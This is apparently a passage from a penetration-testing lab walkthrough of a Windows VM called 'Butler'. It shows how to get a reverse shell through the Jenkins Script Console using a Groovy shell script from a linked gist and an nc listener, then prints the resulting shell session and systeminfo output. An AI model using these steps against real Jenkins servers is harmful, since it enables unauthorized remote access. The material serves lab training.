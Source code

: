 > But not root... yet ;)

### Manual

- Google "groovy reverse shell" 
- Copy raw [shell](https://gist.githubusercontent.com/frohoff/fed1ffaab9b9beeb1c76/raw/7cfa97c7dc65e2275abfb378101a505bfb754a95/revsh.groovy)
- On the local system start a listener `nc -nvlp 8044`
- Log into jenkins
- Navigate to "Manage Jenkins" -> "Tools and Actions" -> "Script Console"
- Paste shell, adjust host and click run

```console
┌──(kali㉿kali)-[~]
└─$ nc -nvlp 8044
listening on [any] 8044 ...
connect to [10.0.2.9] from (UNKNOWN) [10.0.2.80] 60582
Microsoft Windows [Version 10.0.19043.928]
(c) Microsoft Corporation. All rights reserved.

C:\Program Files\Jenkins>whoami
whoami
butler\butler
```
> We got a shell!!!
> But not root... yet

> Let's look around

- `systeminfo`

```console
C:\Program Files\Jenkins>systeminfo
systeminfo

Host Name:                 BUTLER
OS Name:                   Microsoft Windows 10 Enterprise Evaluation
OS Version:                10.0.19043 N/A Build 19043
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          butler
Registered Organization:   
Product ID:                00329-20000-00001-AA079
Original Install Date:     8/14/2021, 3:51:38 AM
System Boot Time:          1/25/2023, 12:24:20 PM
System Manufacturer:       innotek GmbH
System Model:              VirtualBox
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: Intel64 Family 6 Model 158 Stepping 13 GenuineIntel ~2304 Mhz
BIOS Version:              innotek GmbH VirtualBox, 12/1/2006
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC-08:00) Pacific Time (US & Canada)
Total Physical Memory:     2,032 MB
Available Physical Memory: 1,120 MB
Virtual Memory: Max Size:  3,184 MB
Virtual Memory: Available: 2,270 MB
Virtual Memory: In Use:    914 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    WORKGROUP
Logon Server:              N/A
```